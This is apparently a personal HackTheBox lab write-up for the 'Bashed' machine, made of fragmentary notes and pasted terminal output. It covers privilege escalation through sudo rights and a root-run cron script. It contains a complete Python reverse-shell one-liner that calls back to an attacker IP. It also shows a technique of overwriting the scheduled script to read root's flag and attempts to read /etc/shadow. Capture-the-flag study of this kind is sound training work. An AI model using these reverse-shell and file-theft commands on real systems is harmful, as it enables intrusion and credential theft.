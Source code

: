 Previously in... [[Boxes/HackTheBox Writeups/Legacy/Bashed/Enumeration]]

We found a terminal and we got our first [[flag]]

We also found a bad joojoo file that we can exploit ```:/home# sudo -l

  
Matching Defaults entries for www-data on bashed:  
env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL```

let's add our own bash code into it and run it on sudo for root access!

`bash -i`
hmm... we can't edit that file but we can make a nc shell OR wget a shell.sh to their dir
```
www-data@bashed
:/# uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86\_64 x86\_64 x86\_64 GNU/Linux
```

`
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.193",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
`

```www-data@bashed

:/var/www# python \\-c 'import socket,subprocess,os;s=socket.socket(socket.AF\\\_INET,socket.SOCK\\\_STREAM);s.connect(("10.10.16.193",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

  
File "", line 1  
import socket,subprocess,os;s=socket.socket(socket.AF\\\_INET,socket.SOCK\\\_STREAM);s.connect(("10.10.16.193",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

[[etcpasswd]]

/usr/bin/gpasswd
-rwsr-xr-x 1 root root        40K Mar 29  2016 /usr/bin/chsh
```

CRON job exploit:

`
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ ls -la
`
`drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py < script manager access
-rw-r--r--  1 root          root            12 May 20 15:04 test.txt < Root access
`

`scriptmanager@bashed:/scripts$ echo "" > test.py
echo "" > test.py
scriptmanager@bashed:/scripts$ echo 'f=open("test.txt","w");g=open("/root/root.txt","r").read();f.write(g);f.close()' > test.py

<","w");g=open("/root/flag.txt","r").read();f.write(g);f.close()' > test.py  `

`scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
cc4f0afe3a1026d402ba10329674a8e2
scriptmanager@bashed:/scripts$ 
`

`echo 'f=open("test.txt","w");g=open("/etc/shadow.txt","r").read();f.write(g);f.close()' > test.py
`
